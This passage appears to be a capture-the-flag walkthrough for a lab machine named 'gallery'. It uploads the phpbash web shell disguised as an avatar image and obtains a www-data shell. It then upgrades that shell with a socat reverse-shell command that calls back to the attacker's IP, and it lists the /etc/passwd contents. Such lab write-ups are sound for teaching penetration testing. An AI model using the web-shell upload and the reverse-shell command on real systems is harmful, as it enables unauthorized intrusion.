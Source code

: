 we can use php bash, a tool that will give us basic command line access to the machine.

https://github.com/Arrexel/phpbash/blob/master/phpbash.php

upload phpbash, then navigate to it. to navigate to it, right click on the avatar picture (it is blank because it is not a real image jus tthe php file) and click open in new tab

for this example the url is at the following address

http://10.10.82.219/gallery/uploads/1732115340_phpbash.php

the upload url might change, so make sure to find it using the navigation teqnique shared previously

![[malavatar.png]]

and we have a shell as www-data


![[phpbashworking.png]]

# Privilege Escalation

### User

we can see that there are some users in the home directory

```
/home/mike
/home/ubuntu
```

we can't do much else, so we will try to upgrade the shell to a tty session

upgrade shell to a tty session with socat

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```bash
socat file:`tty`,raw,echo=0 tcp-listen:1337
```

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.18.190:1337
```

```
www-data@gallery:/dev/shm$ whoami
www-data
www-data@gallery:/dev/shm$ uname -a
Linux gallery 4.15.0-167-generic #175-Ubuntu SMP Wed Jan 5 01:56:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

from here lets look for more privilege escalation opportunities

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```